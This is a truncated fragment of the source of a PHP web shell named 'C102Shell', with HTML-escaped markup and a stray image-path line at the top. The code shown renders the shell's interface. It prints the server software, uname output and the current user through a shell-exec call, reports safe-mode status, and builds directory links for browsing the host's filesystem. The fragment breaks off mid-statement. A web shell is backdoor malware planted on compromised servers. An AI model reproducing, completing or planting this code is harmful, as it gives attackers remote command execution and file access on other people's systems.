 ?&gt;&lt;html&gt;&lt;head&gt;&lt;meta http-equiv="Content-Type" content="text/html; charset=windows-1251"&gt;&lt;meta http-equiv="Content-Language" content="en-us"&gt;&lt;title&gt;&lt;?php echo getenv("HTTP_HOST"); ?&gt; - phpshell&lt;/title&gt;&lt;STYLE&gt;TD { FONT-SIZE: 8pt; COLOR: #ebebeb; FONT-FAMILY: verdana;}BODY { scrollbar-face-color: #800000; scrollbar-shadow-color: #101010; scrollbar-highlight-color: #101010; scrollbar-3dlight-color: #101010; scrollbar-darkshadow-color: #101010; scrollbar-track-color: #101010; scrollbar-arrow-color: #101010; font-family: Verdana;}TD.header { FONT-WEIGHT: normal; FONT-SIZE: 10pt; BACKGROUND: #7d7474; COLOR: white; FONT-FAMILY: verdana;}A { FONT-WEIGHT: normal; COLOR: #dadada; FONT-FAMILY: verdana; TEXT-DECORATION: none;}A:unknown { FONT-WEIGHT: normal; COLOR: #ffffff; FONT-FAMILY: verdana; TEXT-DECORATION: none;}A.Links { COLOR: #ffffff; TEXT-DECORATION: none;}A.Links:unknown { FONT-WEIGHT: normal; COLOR: #ffffff; TEXT-DECORATION: none;}A:hover { COLOR: #ffffff; TEXT-DECORATION: underline;}.skin0{position:absolute; width:200px; border:2px solid black; background-color:menu; font-family:Verdana; line-height:20px; cursor:default; visibility:hidden;;}.skin1{cursor: default; font: menutext; position: absolute; width: 145px; background-color: menu; border: 1 solid buttonface;visibility:hidden; border: 2 outset buttonhighlight; font-family: Verdana,Geneva, Arial; font-size: 10px; color: black;}.menuitems{padding-left:15px; padding-right:10px;;}input{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}textarea{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}button{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}select{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}option {background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}iframe {background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}p {MARGIN-TOP: 0px; MARGIN-BOTTOM: 0px; LINE-HEIGHT: 150%}blockquote{ font-size: 8pt; font-family: Courier, Fixed, Arial; border : 8px solid #A9A9A9; padding: 1em; margin-top: 1em; margin-bottom: 5em; margin-right: 3em; margin-left: 4em; background-color: #B7B2B0;}body,td,th { font-family: verdana; color: #d9d9d9; font-size: 11px;}body { background-color: #000000;}&lt;/style&gt;&lt;/head&gt;&lt;BODY text=#ffffff bottomMargin=0 bgColor=#000000 leftMargin=0 topMargin=0 rightMargin=0 marginheight=0 marginwidth=0&gt;&lt;center&gt;&lt;TABLE style="BORDER-COLLAPSE: collapse" height=1 cellSpacing=0 borderColorDark=#666666 cellPadding=5 width="100%" bgColor=#000000 borderColorLight=#c0c0c0 border=1 bordercolor="#C0C0C0"&gt;&lt;tr&gt;&lt;th width="101%" height="15" nowrap bordercolor="#C0C0C0" valign="top" colspan="2"&gt;&lt;p&gt;&lt;font face=Webdings size=6&gt;&lt;b&gt;!&lt;/b&gt;&lt;/font&gt;&lt;a href="&lt;?php echo $surl; ?&gt;"&gt;&lt;font face="Verdana" size="5"&gt;&lt;b&gt;C102Shell v. &lt;?php echo $shver; ?&gt;&lt;/b&gt;&lt;/font&gt;&lt;/a&gt;&lt;font face=Webdings size=6&gt;&lt;b&gt;!&lt;/b&gt;&lt;/font&gt;&lt;/p&gt;&lt;/center&gt;&lt;/th&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;&lt;p align="left"&gt;&lt;b&gt;Software:&nbsp;&lt;?php echo $DISP_SERVER_SOFTWARE; ?&gt;&lt;/b&gt;&nbsp;&lt;/p&gt;&lt;p align="left"&gt;&lt;b&gt;uname -a:&nbsp;&lt;?php echo wordwrap(php_uname(),90,"&lt;br&gt;",1); ?&gt;&lt;/b&gt;&nbsp;&lt;/p&gt;&lt;p align="left"&gt;&lt;b&gt;&lt;?php if (!$win) {echo wordwrap(myshellexec("id"),90,"&lt;br&gt;",1);} else {echo get_current_user();} ?&gt;&lt;/b&gt;&nbsp;&lt;/p&gt;&lt;p align="left"&gt;&lt;b&gt;Safe-mode:&nbsp;&lt;?php echo $hsafemode; ?&gt;&lt;/b&gt;&lt;/p&gt;&lt;p align="left"&gt;&lt;?php 
$d = str_replace("\\",DIRECTORY_SEPARATOR,$d); 
if (empty($d)) {$d = realpath(".");} elseif(realpath($d)) {$d = realpath($d);} 
$d = str_replace("\\",DIRECTORY_SEPARATOR,$d); 
if (substr($d,-1) != DIRECTORY_SEPARATOR) {$d .= DIRECTORY_SEPARATOR;} 
$d = str_replace("\\\\","\\",$d); 
$dispd = htmlspecialchars($d); 
$pd = $e = explode(DIRECTORY_SEPARATOR,substr($d,0,-1)); 
$i = 0; 
foreach($pd as $b) 
{ 
 $t = ""; 
 $j = 0; 
 foreach ($e as $r) 
 { 
  $t.= $r.DIRECTORY_SEPARATOR; 
  if ($j == $i) {break;} 
  $j++; 
 } 
 echo "&lt;a href=\"".$surl."act=ls&d=".urlencode($t)."&sort=".$sort."\"&gt;&lt;b&gt;".htmlspecialchars($b).DIRECTORY_SEPARATOR."&lt;/b&gt;&lt;/a&gt;"; 
 $i++; 
} 
echo "&nbsp;&nbsp;&nbsp;"; 
if (is_writable($d)) 